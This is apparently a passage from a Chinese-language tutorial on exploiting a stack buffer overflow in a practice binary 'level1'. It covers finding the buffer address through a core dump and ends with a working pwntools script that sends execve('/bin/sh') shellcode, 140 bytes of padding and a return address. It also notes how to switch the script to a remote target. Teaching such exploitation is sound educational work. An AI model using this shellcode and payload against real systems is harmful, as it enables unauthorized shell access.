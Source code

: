这里我们使用一段最简单的执行 `execve ("/bin/sh")` 命令的语句作为shellcode。

溢出点有了，shellcode有了，下一步就是控制PC跳转到shellcode的地址上:

```
[shellcode][“AAAAAAAAAAAAAA”….][ret]
^------------------------------------------------| 
```

对初学者来说这个shellcode地址的位置其实是一个坑。因为正常的思维是使用gdb调试目标程序，然后查看内存来确定shellcode的位置。但当你真的执行exp的时候你会发现shellcode压根就不在这个地址上！这是为什么呢？原因是gdb的调试环境会影响buf在内存中的位置，虽然我们关闭了ASLR，但这只能保证buf的地址在gdb的调试环境中不变，但当我们直接执行./level1的时候，buf的位置会固定在别的地址上。怎么解决这个问题呢？

最简单的方法就是开启core dump这个功能。

```
#!bash
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern' 
```

开启之后，当出现内存错误的时候，系统会生成一个core dump文件在tmp目录下。然后我们再用gdb查看这个core文件就可以获取到buf真正的地址了。

```
#!bash
$./level1 
ABCDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

$ gdb level1 /tmp/core.1433844471 
Core was generated by `./level1'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()

(gdb) x/10s $esp-144
0xbffff290:  "ABCD", 'A' <repeats 153 times>, "\n\374\267`\204\004\b"
0xbffff335:  "" 
```

因为溢出点是140个字节，再加上4个字节的ret地址，我们可以计算出buffer的地址为$esp-144。通过gdb的命令 “x/10s $esp-144”，我们可以得到buf的地址为0xbffff290。

OK，现在溢出点，shellcode和返回值地址都有了，可以开始写exp了。写exp的话，我强烈推荐pwntools这个工具，因为它可以非常方便的做到本地调试和远程攻击的转换。本地测试成功后只需要简单的修改一条语句就可以马上进行远程攻击。

```
#!bash
p = process('./level1')  #本地测试
p = remote('127.0.0.1',10001)  #远程攻击 
```

最终本地测试代码如下：

```
#!python
#!/usr/bin/env python
from pwn import *

p = process('./level1') 
ret = 0xbffff290

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

# p32(ret) == struct.pack("<I",ret) 
#对ret进行编码，将地址转换成内存中的二进制存储形式
payload = shellcode + 'A' * (140 - len(shellcode)) + p32(ret)

p.send(payload) #发送payload
```